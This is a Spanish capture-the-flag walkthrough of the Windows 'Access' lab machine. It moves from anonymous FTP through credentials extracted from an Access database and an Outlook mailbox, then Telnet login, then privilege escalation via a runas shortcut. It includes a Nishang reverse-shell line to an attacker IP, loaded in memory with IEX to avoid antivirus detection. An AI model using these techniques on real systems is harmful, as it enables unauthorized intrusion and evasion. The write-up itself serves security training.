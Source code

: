 ![](../img/Access/0.png)
#Windows #AD #nishang #Runas
____

El acceso es un &amp;quot;fácil&amp;quot; dificultad de la máquina, que pone de relieve cómo las máquinas asociadas con la seguridad física de un entorno puede no ser en sí mismo seguro. También se destaca cómo FTP / archivos compartidos accesibles a menudo puede conducir a conseguir un punto de apoyo o movimiento lateral. Enseña técnicas para identificar y explotar las credenciales guardadas.
____

Iniciando la fase de reconocimiento, se realizó un escaneo con **RustScan** para identificar los puertos abiertos en el equipo, obteniendo los siguientes resultados:

![](../img/Access/1.png)
<span class="center-text">Escaneo con RUSTSCAN</span>

Una vez obtenidos los resultados, se identificó que los puertos **21 (FTP), 23 (Telnet) y 80 (HTTP)** están abiertos. A partir de esta información, se procede con la enumeración del **puerto 21 (FTP)** para analizar posibles accesos, credenciales y configuraciones del servicio.

![](../img/Access/2.png)
<span class="center-text">Acceso a ftp anonimamente</span>

Se observa que el servidor FTP permite acceso anónimo, lo que nos brinda la posibilidad de listar su contenido. Al acceder, identificamos la presencia de **dos directorios**, por lo que procedemos a enumerar su contenido. Como resultado, se obtienen los siguientes archivos:

![](../img/Access/3.png)
<span class="center-text">Archivos encontrados</span>

Se identificaron **dos archivos** en el servidor FTP. Basándonos en sus extensiones:

- **`backup.mdb`**: La extensión **`.mdb`** indica que podría tratarse de una base de datos de **Microsoft Access**. Este tipo de archivos suele utilizarse para almacenar información estructurada y puede contener credenciales, registros o datos sensibles.
- **`archivo.zip`**: Un archivo comprimido que podría contener información relevante, por lo que es necesario analizar su contenido.

Procedemos a descargar ambos archivos para su análisis. Sin embargo, al intentar descargar **`backup.mdb`**, se presenta un **conflicto**. Esto puede deberse a **permisos restringidos**, **corrupción del archivo** o **configuración del servidor FTP** que impide su descarga directa.

![](../img/Access/4.png)
<span class="center-text">Error de descarga</span>

Investigando un poco más sobre el funcionamiento de **FTP**, notamos que para descargar archivos que no son de texto (como bases de datos, imágenes o archivos comprimidos), es necesario activar el **modo binario**.

Al cambiar al **modo binario** antes de la descarga, logramos obtener el archivo **backup.mdb** exitosamente. Esto garantiza que el archivo se transfiera sin corrupción y pueda ser analizado correctamente.

Ahora, procederemos a examinar el contenido de ambos archivos en busca de información relevante.

![](../img/Access/5.png)
<span class="center-text">Cambiando a binary y obtencion de archivo</span>

Al contar con ambos archivos, decidimos analizar primero el contenido del **archivo ZIP**, pero notamos que **está protegido con contraseña**, lo que impide su extracción inmediata. Dado que aún no contamos con la clave, dejamos esta parte pendiente para un posible ataque de fuerza bruta o revisión de pistas en otros archivos.

Pasamos entonces a investigar cómo abrir el archivo **`.mdb`** y encontramos un **visualizador en línea**, [mdoopener](https://www.mdbopener.com/) que nos permitirá explorar su contenido sin necesidad de herramientas locales. Procedemos a cargar el archivo en la herramienta para analizar si contiene información relevante, como credenciales, registros de acceso o configuraciones útiles.

![](../img/Access/6.png)
<span class="center-text">Intento de descompresión de archivo zip</span>

![](../img/Access/7.png)
<span class="center-text">Visualizador en linea de archivos mdb</span>

Al abrir y analizar el contenido del archivo **`.mdb`**, encontramos una tabla llamada **`auth_user`**, que almacena **usuarios y contraseñas**.

Inicialmente, intentamos utilizar estas credenciales para acceder a **Telnet**, pero **no tuvimos éxito**. Sin embargo, decidimos probar la contraseña extraída con el archivo **ZIP protegido**, y logramos **descomprimirlo exitosamente**.

Ahora procederemos a analizar el contenido del archivo extraído en busca de información relevante que pueda ayudarnos a obtener acceso al sistema o descubrir más pistas sobre su seguridad.

![](../img/Access/8.png)
<span class="center-text">Credenciales contradas</span>

![](../img/Access/9.png)
<span class="center-text">Extracción de datos</span>

Al analizar el archivo extraído, observamos que tiene la extensión **`.pst`**, lo que indica que se trata de un **archivo de almacenamiento de correos electrónicos de Microsoft Outlook**. Estos archivos suelen contener correos, contactos y otros datos de la cuenta de un usuario.

Dado que queremos examinar su contenido de manera más accesible, investigamos si existe un método para **convertir un archivo `.pst` a `.pdf`**

![](../img/Access/10.png)
<span class="center-text">Conversion de pst a pdf</span>

Después de convertir el archivo **`.pst`** a **PDF**, lo analizamos y encontramos **un usuario y una contraseña** dentro de los correos almacenados.

Con esta nueva información, intentamos nuevamente autenticarnos en **Telnet**, y esta vez logramos acceder exitosamente al sistema. Como resultado de esta intrusión, **encontramos la primera flag**.

![](../img/Access/11.png)
<span class="center-text">Credenciales encontradas</span>

![](../img/Access/12.png)
<span class="center-text">Acceso al sistema</span>

![](../img/Access/13.png)
<span class="center-text">Flag user</span>

### Privilege Escaltaion

Durante nuestra enumeración del sistema, identificamos un **archivo interesante** en el directorio **`Public/Desktop`**. Al analizarlo, notamos que se trata de un **acceso directo (`.lnk`)** que ejecuta comandos mediante `runas`, lo que indica que podría utilizarse para ejecutar procesos con **privilegios de administrador**.

![](../img/Access/14.png)
<span class="center-text">Identificación de un acceso directo que corre como administrador</span>

Dado que `runas` permite ejecutar programas con otro usuario, exploramos formas de **escalar privilegios** mediante este mecanismo. Se nos ocurre utilizar **Nishang**, un conjunto de scripts en PowerShell para post-explotación, y aprovecharlo para **cargar una reverse shell en memoria**, evitando tocar el disco y evadiendo detecciones básicas.

Clonar repositorio de nishang

```bash
git clone https://github.com/samratashok/nishang.git
```

Después de clonar el repositorio de **Nishang**, tomamos el archivo **`Invoke-PowerShellTcp.ps1`** y lo modificamos agregando la siguiente línea al final:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress <tu_ip> -Port 4444
```

Una vez realizado el proceso anterior, utilizamos **IEX (Invoke-Expression)** para descargar y ejecutar el payload en memoria, evitando escribirlo en disco y reduciendo la posibilidad de detección por antivirus o herramientas de monitoreo.

Siguiendo estos pasos, procedemos a descargarlo y obtendremos la revshell

![](../img/Access/15.png)
<span class="center-text">Ejecución como administrador de nuestra revshell</span>

![](../img/Access/16.png)<span class="center-text">Acceso como root</span>

Después de ejecutar el exploit con **IEX** y obtener la reverse shell con **privilegios de administrador**, ahora podemos **buscar y capturar la flag de root**.

![](../img/Access/17.png)
<span class="center-text">Flag root</span>
